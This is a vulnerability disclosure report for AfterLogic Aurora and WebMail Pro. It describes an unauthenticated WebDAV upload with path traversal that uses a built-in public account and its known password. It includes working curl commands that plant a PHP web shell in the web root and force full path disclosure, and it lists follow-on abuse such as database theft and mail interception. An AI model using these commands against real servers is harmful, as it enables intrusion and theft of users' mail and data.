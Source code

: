 # **Report Title:** Public unrestricted upload with path traversal on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**The severity of the issue:** Critical

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:**  Directory Traversal, Unrestricted Upload of File with Dangerous Type, Public Built-in Credentials For Critical Function

**Gained Access:** WebServer user ( Apache, Nginx, Etc… )

## **Resources:**
* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal
* https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

## **Authors:**
* Emre KELEŞ - @emrekeles on twitter
* Emircan YILDIZ - @scorpsec on twitter
* Halil Emre ÖZEN - @halilemreozen on twitter

## **Report Summary:**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP PUT request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to create/overwrite files with malicious files such as web shells or database dumpers, etc.

After uploading a malicious PHP file to the web server, some example actions that the attacker can do;

1. Download / Modify the database
    1. Email addresses with easily decodable passwords
    2. CalDAV data ( Calendars of the users )
    3. CardDAV data ( Contacts of the users )
2. Download user uploaded private WebDAV files.
3. Intercept to read/modify emails of webmail users. 
    1. A way to read emails because webmail servers usually are whitelisted on mail servers while normal clients have thresholds
    2. A good way to spread malicious executables/mails to users without struggling mail gateways/spam blockers.
    3. Acting like the real user and sending vicious emails to important users/companies
    4. Sending bulk emails for spam campaigns.
4. Try to privilege escalation to get the root/administrator server.

Etc...

## **To Reproduce:**

Upload the malicious file with the following curl command

```shell
curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"
```

As the AfterLogic WebMail Pro docs mentioned “the web root usually looks like /var/www/html” and at the above PoC assumes files are located under apache’s standard /var/www/html path, it may differ due to configuration but it’s not a block for the attacker because we realized that some of the EndPoints expose the document root path when the invalid path parameter requested.

Ways to figure out document root directory on customized web server configurations;

1. Using invalid path to get SabreDAV error which gives full path disclosure of the path to the webroot.

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

2. Trying to common web server paths
3. Brute force ( append new ../ to the URL, until getting HTTP 200 for the uploaded malicious file. )

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpPut
* \libraries\Sabre\DAV\FS\File.php -> put

Unrestricted Upload of File with Dangerous Type, Directory Traversal problem starts on step 2 / exec, it doesn’t sanitize given parameters and checks the file extension which with that way attacker able to write upper directories and execute the malicious file

With the above problem any loggable user can uploads malicious files, with the caldav_public_user@localhost users, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
